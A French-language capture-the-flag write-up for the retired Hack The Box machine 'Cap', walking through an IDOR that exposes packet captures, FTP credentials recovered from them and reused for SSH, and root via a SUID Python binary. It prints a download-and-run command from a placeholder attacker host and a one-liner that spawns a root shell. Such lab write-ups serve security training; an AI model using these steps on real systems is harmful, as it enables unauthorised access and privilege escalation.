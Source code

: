 # Cap (HTB - Retired - Easy)
**Date :** 07/05/2025  
**Catégorie :** IDOR, FTP credentials, SUID Python PrivEsc  
**Difficulté :** Easy  
**Objectif :** Obtenir les flags `user.txt` et `root.txt`

---

## Nmap

```bash
nmap -Pn -sV nmap.txt 10.10.11.XXX
```
```markdown
![Nmap results](./nmap_cap.png)
```
Résultat :
21/tcp - FTP

22/tcp - SSH

80/tcp - HTTP

## Enum Web
Sur le port 80, on accède à un site affichant un dashboard, avec plusieurs onglets, dont un nommé Security Snapshot.
L’URL lors de la consultation d’un rapport ressemble à :
http://10.10.11.XXX/data/0

## IDOR (Insecure Direct Object Reference)
Changement de la valeur dans l’URL (/data/1, /data/2, etc.) permet de télécharger différents fichiers .pcap.
On télécharge ceux qui semblent intéressants et on les ouvre avec Wireshark.
## Analyse de fichier PCAP
Dans le fichier correspondant à /data/0, on observe des transferts FTP en clair, et on identifie :
Nom d’utilisateur FTP


Mot de passe FTP


(Le tout visible dans les paquets FTP Request et FTP Response.)

```markdown
![Wireshark](./cap_wireshark.png)
```

## Accès FTP & SSH
Connexion au serveur FTP :
```bash
ftp 10.10.11.XXX
```

Les identifiants FTP fonctionnent également pour se connecter en SSH :
```bash
ssh user@10.10.11.XXX
```
Flag user.txt trouvé dans le répertoire home.
```markdown
![FTP](../HTB/retired/cap/co_ftp.png)
```

```markdown
![Userflag and linpeas import](./cap_user_linpeas.png)
```

## Escalade de privilèges
Upload de linpeas.sh pour l’analyse locale :
### Sur la machine attaquante
```bash
python3 -m http.server 8000
```

### Sur la cible
```bash
wget http://<attacker_ip>:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

## SUID Python trouvé :
```bash
-rwsr-xr-x 1 root root 3700736 Jul  7  2021 /usr/bin/python3.8
```

## Exploitation SUID Python
Lancement de Python avec élévation des privilèges :
```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

On obtient un shell root, puis :
```bash
cat /root/root.txt
```

## 🛠️ Résumé des étapes

| Étape                | Technique                          |
|----------------------|------------------------------------|
| Initial Access       | IDOR via `/data/<id>`              |
| Credential Access    | Analyse de `.pcap` → FTP creds     |
| Lateral Movement     | Reuse FTP creds → SSH              |
| Privilege Escalation | SUID Python 3.8 → root shell       |
